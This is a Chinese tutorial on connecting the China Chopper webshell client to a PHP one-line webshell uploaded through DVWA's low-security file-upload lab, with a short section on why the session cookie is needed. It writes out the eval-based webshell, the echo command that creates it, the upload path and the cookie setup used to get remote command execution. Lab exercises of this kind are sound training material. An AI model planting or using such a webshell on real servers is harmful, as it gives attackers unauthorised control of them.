# 一、菜刀
本文以dvwa靶场做示范。  

## 0.目标  
菜刀请自行百度或GitHub搜索获取。  
学完本文仅需掌握：  
1. 使用菜刀连接需要身份认证的木马;  
2. 理解Cookie的作用；  

## 1.菜刀使用方法

##### a. 进入文件上传靶场，并将难度设置为low：  

账户信息：admin/password  
  

##### b. 百度“一句话木马”：  

  
并找到可执行木马的源码，对于dvwa靶场则为PHP木马：  
  
复制代码，并制作木马文件：  

> 一句话木马  
> <?php @eval($_post['attack']);?>  

执行指令[^1]  

> echo '<?php @eval($_post["attack"]);?>' > tmp.php  

  

##### c. 进入文件上传界面，上传制作好的木马：  

点击选择文件  
  
选中制作的木马文件tmp.php  
  
点击upload上传  
  
返回结果如下  
  
证明文件上传成功  
尝试访问上传成功的文件  
http://192.168.56.101/dvwa/hackable/uploads/tmp.php[^2]  
  
确定未返回404，说明文件可访问。  

##### d. 使用菜刀访问上传木马：

d1. 打开菜刀工具  
  
d2.添加远程连接任务  
右键添加任务  
  
地址填入木马地址，密码为attack[^3]
  
点击编辑确定，可以看见主界面如下
  
d3. 任务添加cookie  
在浏览器中按F12，进入调试界面，并进入Network  
  
刷新页面，在请求报文头中获取cookie值
  
当前cookie值为：

> Cookie: security=low; PHPSESSID=31ei3lo48uu5v6i2u85ru1t3v0  

回到菜刀中，选中任务右键，然后选择设置  
  
进入设置界面后，点击请求头，并将刚获取的cookie值写入  
  
点击确定，出现如下提示，则设置成功，然后退出设置窗口
  

##### e. 连接木马

双击任务即可，返回如下则证明远程连接成功  
  
也可以在列表中选中任务右键，并选择“模拟终端”  
  
在模拟终端中可以尝试执行系统命令，验证远控成功
  

## 2.Cookie的作用

在上一节中，菜刀能连接到木马的关键操作是添加cookie。在系统做了良好权限控制的场景中，如果没有添加身份认证信息，就不能访问到远程连接文件，其中cookie就是用户身份认证的一种方式。  
如果上传了木马后，直接用工具连接出现了连接失败的情况，则需要考虑添加请求头信息，其中最为关键的是：cookie、session、token，根据不同的情况，也可能需要添加其他的请求头信息。  
更多关于cookie、session、token的知识，请自行百度[^4]。

-------------
推广：
欢迎加入QQ技术讨论群：736342355

[^1]: 直接创建一个PHP文件，并将代码写入PHP文件中保存即可  

[^2]: 上图返回结果中的 `..\` 表示返回上级目录，所以木马文件则删除最低两级目录，然后拼接hackable/uploads/tmp.php  

[^3]: 上传木马中设置的POST参数为attack，所以此处添加密码为attack，具体原因后期博文会具体讲解  

[^4]: 参考博文:<https://www.cnblogs.com/moyand/p/9047978.html>